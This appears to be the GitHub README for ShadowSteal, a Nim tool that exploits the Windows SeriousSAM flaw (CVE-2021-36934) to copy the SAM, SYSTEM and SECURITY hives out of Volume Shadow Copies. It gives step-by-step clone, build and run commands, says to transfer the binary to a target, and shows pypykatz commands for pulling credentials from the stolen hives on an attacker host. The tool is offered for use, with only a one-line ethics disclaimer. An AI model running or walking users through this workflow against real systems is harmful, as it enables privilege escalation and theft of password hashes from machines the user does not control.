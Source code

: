 # ShadowSteal | CVE-2021-36934
Pure Nim implementation for exploiting CVE-2021-36934, the SeriousSAM Local Privilege Escalation (LPE). Not OPSEC safe.... yet ;). I do not claim credit for the discovery of this exploit.

## Quick Start

Getting started with ShadowSteal is now easier than ever thanks to Docker! Don't wanna mess with installing Nim dependencies? I got you, fam! Run the Python script to create the Docker build environment, compile the binary, transfer it back to your host, and then kill the container.

Install Docker on your host (look up the documentation for how to install for different OS), then run the ShadowSteal Python script in the main dir:

```
$ sudo python3 ShadowSteal.py && cd bin/ && ls -l
```

Or, build from source by installing Nim and its dependencies:

```
$ sudo apt-get install nim
```
```
$ nimble install zippy argparse winim
```

Install the MinGW tool chain if it's not already installed.
```
$ sudo apt-get install mingw-w64
```
```
$ git clone https://github.com/HuskyHacks/ShadowSteal.git && cd ShadowSteal
```
```
$ make && cd bin/ && ls -l
```
Transfer to target...
```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -h
```

## Summary
Due to some oversight by Microsoft, regular users have read permissions over the contents of the ...\System32\config\ folder in recent Windows builds. Among other things, this means that a low level user has read access to the SAM, System, and Security files in ...\System32\config.

![1.png](img/1.png)

Ooof. So what can we do with this?

Some very observant researchers (shout out [@jonasLyk](https://twitter.com/jonasLyk)!) noticed that if a Windows host has been using a specific system restore configuration, "Volume Shadow Copies", then the host stores backup copies of these files that are accessible via the Win32 device namespace for these copies.

![2.png](img/2.png)

![3.png](img/3.png)

The SAM is normally locked during the host's operation, so accessing the SAM in ...\System32\config\ is out of the question. But these shadow volume copies are fair game for any user on the host due to this misconfiguration. Very nice!

## ShadowSteal

ShadowSteal is a binary written in Nim to automate the enumeration and exfiltration of the SAM, System, and Security files from these shadow copies. It iterates through the possible locations of the shadow copies and, when it has found a target, it extracts the files to a zipped directory (think Bloodhound output).

![4.png](img/4.png)

## Features:
- Triage and Bruteforce mode, for thorough or rapid enumeration.
- Automated extraction and rollup of target credentials.
- Jeff Beezy mode. (wait, what?)
- Integrated Docker build environment for easy complation!
- Will enumerate all available HarddiskShadowCopy locations, pick the highest number dynamically, and target those for exploitation/extraction.

![6.png](img/6.png)

It's nothing earth shattering and the code is hacky, but it works and it was a fun build!

## Installing from Source

Install Nim:

```
$ sudo apt-get install nim
````
Install dependencies:
```
$ nimble install zippy argparse winim
```
Install the MinGW tool chain if it's not already installed:
```
$ sudo apt-get install mingw-w64
```

Compile for 64-bit Windows:
```
$ make
```

Transfer to target and run it!
## Usage

```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -h
[*] ShadowSteal! Identifies and extracts credentials that can be stolen due to the SeriousSAM (CVE-2021-36934) exploit. Searches from high to low, defaults searching 100 to 1.

Usage:
   [options]

Options:
  -h, --help
  -t, --triage               [*] Triage mode. Quick enumeration, tries to find quick wins.
  -bf, --bruteforce          [*] Bruteforce mode. Enumerates the entire range of possible locations (512 to 1). Takes a bit.
  -b, --bezos                [?] Jeff Bezos Mode
```

## Triage mode
Limits location bruteforce to 10 to 1, decrementing with each attempt. Speedy and effective in most environments.
```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -t
```

## Bruteforce mode
Searches all possible locations (512), decrementing down to 1. Try this to thoroughly enumerate the environment. Takes a few minutes.
```
PS C:\Users\husky\Desktop> .\ShadowSteal.exe -bf
```

## Parsing Output

Transfer the output directory back to your attacker host and carve the data with Pypykatz. To install:
```
$ pip3 install pypykatz
```
To run Pypykatz:
```
$ pypykatz registry [yyyyMMddhhmm_SYSTEM] --sam [yyyyMMddhhmm_SAM] --security [yyyyMMddhhmm_SECURITY]
```
![5.png](img/5.png)

## Release History

### v.04.01 | the Docktastic update
Now features an easy pre-packaged Docker build environment! Just run the ShadowSteal.py script to set up the Docker environment, compile the binay, transfer it back out to your host, and kill the build containers. It just works!

###  v.03.69 | the N I C E update
Lean and mean. Optimized compile options added. HUGE performance increase due to compiler optimization, full bruteforce now takes place almost instantly. Huge thanks to @orbitalgun for the pseudo PR, glory be to your house and name!

### v.02 THE JEFF BEEZY UPDATE
- Bruteforce and Triage mode
- A better search algo
- Code cleanup
- Jeff Beezy Mode
- Lots of lessons learned from the first release!

### v.01 THE LAUNCHPAD RELEASE
Stap in boiz, this trainwreck is a-rollin. This release was my rapid prototype and it was pretty terrible lol. Lots of fun to build though!
Features:
- "Working" code

## References

- Original disclose of this CVE by by [@jonasLyk](https://twitter.com/jonasLyk).
- [CVE Reference page](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934)
- Lyric credit: Bezos I by Bo Burnham. All Rights Reserved.

## Disclaimer

- For legal, ethical use only.


![7.png](img/7.png)
